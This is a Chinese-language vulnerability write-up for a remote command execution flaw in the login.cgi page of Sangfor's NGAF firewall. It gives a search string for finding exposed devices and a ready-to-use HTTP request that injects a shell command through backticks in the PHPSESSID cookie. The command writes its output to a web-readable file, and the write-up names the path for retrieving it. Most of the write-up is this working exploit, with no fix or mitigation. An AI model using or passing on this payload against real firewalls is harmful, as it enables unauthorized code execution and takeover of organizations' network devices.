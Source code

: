 # 深信服 NGAF下一代防火墙 login.cgi 远程命令执行漏洞

## 漏洞描述

深信服下一代防火墙是一款以应用安全需求出发而设计的下一代应用防火墙。深信服下一代防火墙在 login.cgi  路径下，PHPSESSID 处存在命令执行漏洞。攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个web服务器。

## 漏洞影响

<a-checkbox checked>深信服 NGAF下一代防火墙</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"Redirect.php?url=LogInOut.php"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1697639705479-39cc829b-1edc-4102-9b01-1f5d6c9bac5a-20231108133116891.png)

验证POC

```plain
POST /cgi-bin/login.cgi HTTP/1.1 
Host: 
Cache-Control: max-age=0 
Content-Type: Application/X-www-Form
y-forwarded-for: 127.0.0.1
Cookie: PHPSESSID=`$(id > /fwlib/sys/virus/webui/svpn_html/3.txt)`;

{"opr":"login", "data":{"user": "watchTowr" , "pwd": "watchTowr" , "vericode": "NSLB" , "privacy_enable": "0"}}
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1697639728998-9a5a3f9a-a49d-4e24-b9c6-0c4cf34100ec.png)

```plain
/svpn_html/3.txt
```